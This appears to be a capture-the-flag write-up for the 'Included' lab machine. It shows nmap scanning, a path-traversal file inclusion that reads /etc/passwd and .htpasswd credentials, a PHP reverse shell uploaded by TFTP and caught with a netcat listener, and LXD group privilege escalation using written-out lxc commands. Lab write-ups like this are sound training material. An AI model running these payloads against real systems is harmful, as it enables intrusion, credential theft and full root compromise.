

# Included
## User Flag
When starting a box, it's always a good idea to run nmap to enumerate services on the target. Running `nmap -sV -sC 10.129.230.112`
shows us the service versions and might point us toward known vulnerabilities.


Port 80 is open and serving HTTP, so that’s a natural place to begin. Visiting the site takes us to: `http://10.129.230.112/?file=home.php#`


The `file` query parameter immediately stands out. This hints at a possible Local File Inclusion (LFI) or Path Traversal vulnerability. We can also use `dirbuster` to see if there are any other accessible files or directories.

Running DirBuster with the URL `http://10.129.230.112/?file=home.php`
returns a few interesting results:


The `fonts` and `images` folders are accessible, while others return 403s or 300s. One item that stands out is `.htpasswd`. These files often contain usernames and hashed passwords. Since we’re dealing with Apache, these are likely located in `/var/www/html`.

We can test for LFI by trying to access `/etc/passwd`. Since we're probably in `/var/www/html`, navigating to `http://10.129.230.112/?file=../../../../etc/passwd` does the trick. We can see the contents of the file, and two things stand out at the bottom:


There's a user named `mike`

`tftp` is mentioned as a service

Now let’s try accessing the .htpasswd file directly by navigating to `http://10.129.230.112/?file=../../../../var/www/html/.htpasswd`:


This gives us credentials. The file contains a username (`mike`) and a password (`Sheffield19`). That confirms `mike` is our target user.

TFTP didn’t show up in the initial nmap scan since it's a UDP service. Let’s rerun the scan with UDP via `nmap -sV -sU 10.129.230.112`:


This time, we see TFTP running on port 69. TFTP is an insecure file transfer protocol, but we might be able to upload a reverse shell using it.

From our Kali box, we head to `/usr/share/webshells/php` and grab `php-reverse-shell.php`. Update it with our `tun0` IP and a port (I used 4444). 



Then, upload it via TFTP:


TFTP uploads default to the `/var/lib/tftpboot/` directory, so the file ends up at `/var/lib/tftpboot/php-reverse-shell.php`

To create a reverse shell, we need to set up a listener (`nc -lnvp 4444`) and then trigger the shell by navigating to `http://10.129.230.112/?file=../../../../var/lib/tftpboot/php-reverse-shell.php`. This gives us a shell. To upgrade it, we can run `script /dev/null -c bash`. 

We’re in as www-data, but we already know mike’s credentials. We can switch users by running `su mike` and then inputting the password as `Sheffield19`.
In `/home/mike`, we grab `user.txt`.


## Root Flag
Now that we’re mike, we check for privilege escalation vectors. Running `id`
reveals that mike is part of the `lxd` group.


A quick Google search for “LXD privilege escalation” points us to:

* [initstring/lxd_root](https://github.com/initstring/lxd_root)

* [HackTricks guide](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html#lxdlxc-group---privilege-escalation) 

The HackTricks guide shows us how to do the exploit step-by-step. First, we download the necessary files to build the LXD container image from [Canonical](https://images.lxd.canonical.com/). According to the the guide, we just need `lxd.tar.xz` and `rootfs.squashfs`. 

Upload both files to the target (using `tftp`), then follow these steps:

```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Confirm it's imported
lxc image list

# Create a privileged container
lxc init alpine privesc -c security.privileged=true

# Attach the root filesystem
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# Start and enter the container
lxc start privesc
lxc exec privesc /bin/sh
```

Once inside, we are in `/mnt/root`. If we navigate to `/mnt/root/root`, we now have access to root.txt.